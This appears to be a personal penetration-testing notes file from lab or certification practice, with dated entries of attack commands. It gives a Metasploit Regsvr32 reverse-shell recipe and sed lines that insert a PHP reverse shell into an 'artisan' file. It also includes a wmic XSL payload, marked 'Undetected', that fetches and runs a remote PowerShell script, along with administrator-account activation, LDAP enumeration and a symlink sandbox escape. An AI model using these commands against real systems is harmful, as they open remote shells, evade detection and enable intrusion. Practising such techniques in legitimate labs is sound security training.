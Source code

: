 # Quick Notes
------------


## 12 Aug
Windows reverse shell using Regsvr32 and metasploit:
```bash
msfconsole > use multi/script/web_delivery

set payload windows/meterpreter/reverse_tcp

set target 3 (Regsvr32)

run
```
Copy the link  and execute it.

 

```cmd
net user administrator /active:yes
```

Using sed to insert code into specific lines:
```bash
sed -i '4i $sock=fsockopen("10.10.10.10", 443);' artisan
sed -i '5i exec("/bin/sh -i <&3 >&3 2>&3");' artisan
```


-----------

## 13 Aug

ldapsearch get naming contexts

```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.209.122" "(objectclass=*)"
```

```bash
ldapsearch -H ldap://192.168.68.122 -x -b "dc=hutch,dc=offsec" "*"
```

vnc password crack hex 
dnspy stuff 



In samba or apache use symlinks to escape sandbox
```
symlink / x
```

HTB Lame https://www.youtube.com/watch?v=n4aXyQUYCjI

Do Cascade one more time and analyse it fully!


## 14 Aug
---------
AD Restore Object 
https://docs.microsoft.com/en-us/powershell/module/activedirectory/restore-adobject?view=windowsserver2022-ps

Cascade


## 15 Aug
---------
Zerologon!

Another windows reverse shell  using wmic:
Undetected 
```cmd
wmic os get /format:"http://10.10.14.25/wmic.xsl"
```

wmic.xsl:
```xsl
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.137.128/shell.ps1') | powershell -noprofile -");
        ]]>
    </ms:script>
</stylesheet>
```

shell.ps1 is nishang oneliner. 

Make clear notes for ldapsearch



https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/
- [ ] add contents from this
